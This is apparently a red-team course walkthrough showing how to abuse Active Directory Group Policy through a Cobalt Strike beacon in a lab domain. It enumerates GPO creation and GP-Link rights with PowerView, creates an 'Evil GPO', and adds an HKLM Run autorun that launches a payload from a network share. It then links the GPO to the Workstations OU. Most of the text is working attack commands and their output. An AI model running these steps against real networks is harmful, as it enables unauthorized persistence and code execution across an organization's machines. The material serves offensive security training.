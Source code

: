 Group Policy Objects are stored in _CN=Policies,CN=System_ - principals that can create new GPOs in the domain have the "Create groupPolicyContainer objects" privilege over this object.  We can find these with PowerView's `Get-DomainObjectAcl` cmdlet by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.
```
beacon> powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

DEV\Developers
```

  This shows that members of the "Developers" group can create new GPOs.

  

Being able to create a GPO doesn't achieve anything unless it can be linked to an OU.  The ability to link a GPO to an OU is controlled on the OU itself by granting "Write gPLink" privileges.

This is also something we can find with PowerView by first getting all of the domain OUs and piping them into Get-DomainObjectAcl again.  Iterate over each one looking for instances of "WriteProperty" over "GP-Link" .
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

ObjectDN              : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : ReadProperty, WriteProperty
ObjectAceType         : GP-Link
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

  This shows that members of the "Developers" group can link GPOs to the "Workstations" OU.

  

GPOs can be managed from the command line via the PowerShell RSAT modules.  These are an optional install and so usually only found on management workstations.  The `Get-Module` cmdlet will show if they are present.
```
beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

Key                        Value                     
---                        -----                     
Backup-GPO                 Backup-GPO                
Block-GPInheritance        Block-GPInheritance       
Copy-GPO                   Copy-GPO                  
Get-GPInheritance          Get-GPInheritance         
Get-GPO                    Get-GPO                   
[...]
```
  

Use the `New-GPO` cmdlet to create and link a new GPO.
```
beacon> powershell New-GPO -Name "Evil GPO"

DisplayName      : Evil GPO
DomainName       : dev.cyberbotic.io
Owner            : DEV\bfarmer
Id               : 550f6672-bdd0-4e3d-8907-628ee6909f26
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 9/8/2022 1:30:17 PM
ModificationTime : 9/8/2022 1:30:17 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        : 
```
  

Some abuses can be implemented directly using RSAT.  For example, the `Set-GPPrefRegistryValue` cmdlet can be used to add an HKLM autorun key to the registry.
```
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
```
  

Next, apply the GPO to the target OU.
```
beacon> powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"

GpoId       : 550f6672-bdd0-4e3d-8907-628ee6909f26
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Order       : 4
```
  

Remember that HKLM autoruns require a reboot to execute.